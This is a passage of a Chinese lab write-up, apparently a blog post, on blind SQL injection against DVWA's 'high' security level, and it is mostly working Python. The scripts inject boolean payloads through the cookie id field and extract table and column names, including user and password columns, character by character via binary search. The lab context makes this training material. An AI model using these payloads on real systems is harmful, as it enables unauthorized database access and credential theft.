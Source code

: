 ```python
for i in range(1, 100):
    low = 32
    high = 127
    while (low <= high):
        mid = (low + high) // 2
        if (exp(i, mid)):
            low = mid + 1
        else:
            high = mid - 1
    data += chr((low + high + 1) // 2)
    print(data)


```

（3）high
先设置完cookie后，就是在cookie的id字段进行布尔盲注，思路和前面一样：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125110556457.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019112511060853.png)

脚本如下：
```python
import requests 
    
# s = requests.Session()
url = "http://49.234.118.102:6140/DVWA/vulnerabilities/sqli_blind/"


data = ""

def exp(i, j):
    
    # payload = f"1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{j}#"
    # guestbook,users

    payload = f"1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),{i},1))>{j}#"
    # user_id,first_name,last_name,user,password...
    header = {'Cookie': 'id=%s; security=high; PHPSESSID=6petkvebd12iaug1tobmleq6uq' % payload}
    # print(header)
    r = requests.get(url, headers=header)
    if "User ID exists in the database" in r.text:
        return True#
    else:
        return False

for i in range(1, 100):
    low = 32
    high = 127
    while (low <= high):
        mid = (low + high) // 2
        if (exp(i, mid)):
            low = mid + 1
        else:
            high = mid - 1
    data += chr((low + high + 1) // 2)
    print(data)

```
